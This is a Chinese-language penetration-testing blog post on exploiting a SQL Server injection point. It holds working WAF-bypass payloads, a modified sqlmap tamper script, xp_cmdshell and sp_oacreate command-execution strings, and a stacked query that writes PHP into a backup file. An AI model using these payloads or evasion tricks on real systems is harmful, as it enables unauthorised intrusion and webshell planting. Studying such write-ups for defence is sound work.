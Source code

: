```yaml
---
title: SQL Server DBA WriteFile
layout: post
date: '2020-01-01'
permalink: "/archivers/2020-01-01/3"
description: 通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。
---
```


## 0x01 前言

本文非基础类的普及文章，主要分享内网中遇到的一个有趣案例。

## 0x02 Bypass注入点

通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。

一开始在一处比较复杂的功能点发现了SQL Server的注入，也是首先利用AND进行判断：

![image.png](/img/20191226185758638482480.png)

参数：ModuleType存在注入点，但是后面有一层站点全局输入的检测机制，从简单的测试来看，是不存在语法分析的一种，比较容易绕过。

我尝试了以下方案：

1. `and -> And`
2. `and -> /**/And`
3. `and -> /*xsww!s*/And`
4. `and -> /*xswwS1154-_[0)}!s*/And`
5. `and -> /***/And`

最终发现第五种可以绕过，使得后端无法辨别`/***/`是否和And是一个本体。

那么我猜想到了一个简单的表达式，似乎和这个过滤规则比较相向：`/*\w{0,}*/`

![image.png](/img/20191226185758638482481.png)

## 0x03 tamper 自动化实现

这里我比较懒，直接改了以下space2comment.py，这个脚本在Kali Linux中的sqlmap目录下：

![image.png](/img/20191220134904145200994.png)

核心代码：

``` python
for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
```

只需要替换`/**/`即可：

![image.png](/img/20191220135355736439598.png)

接着，就可以跑出注入了\~

PS：我比较习惯于添加`--random-agent`参数，理由是在注入的过程中，避免被流量感知设备发现。

![image.png](/img/20191220135413284061845.png)

## 0x04 xp\_cmdshell

到这一步的时候，我遇到了一个问题，SQLMAP调用exec master..xp_cmshell的时候被拦截了，因为后端还检测是否有`exec`、`master`，于是我还要将tamper加两句：

```
payload = payload.replace("exec","/***/Execute/***/")
payload = payload.replace("master..","/***//***/")
```

最终结果：`/***/execute/***//***/xp_cmdshell/***/'whoami'`

点击发包，还是无法执行，被360拦截了！

![image.png](/img/20191220140250490531933.png)

这个Error Code 5 ，是Windows的错误代码，中文意思就是：“拒绝访问”。

现在xp_cmdshell被拦截的很多了，但是sp_oacreate应该可以使用的：


参考我之前写的一篇文章：[Regsvr32 ole对象](https://payloads.online/archivers/2019-07-19/1)


```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

> 后续我发现该服务器无法出网，还是站库分离

**因此无法执行操作系统命令**

## 0x05 写入文件

在写文件这块，我浪费了大量的时间，首先要确定能否向站点目录写文件，当前写文件的操作是否被拦截等等因素。

一开始的思路是调用xp_cmdshell，采用echo去写，目前已无法执行命令，就此作罢，吸了一口芙蓉王，精神焕发，遂查到数据库备份的方式。

提交：

```
{"ClientType": "", "ClientGuid": "09a37ee1-5ec3-46db-9279-4cb066622e8d", "ModuleType": "A2501';use test222;create table [dbo].[test2] ([cmd] [image]);insert/***/into/***/test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);backup database test222 to disk='C:\test2.bak' WITH DIFFERENTIAL,FORMAT;-- ", "IsBackEnd": false }
```

页面返回正常。

但是，我的站点目录如果是中文呢？在Burp里处理就非常麻烦！

还记得之前的IIS 7.5吗，**IIS在接收到一个请求后，会自动将数据进行Unicode解码，如果流量设备、WAF不支持此特性的话，就可以进行绕过**，这里我着重解决中文目录的问题。

![image.png](/img/2019122014115644454134.png)

到这此文就结束了，我并没有成功Getshell，只是回顾我解决问题的思维方式，希望能对大家有用！

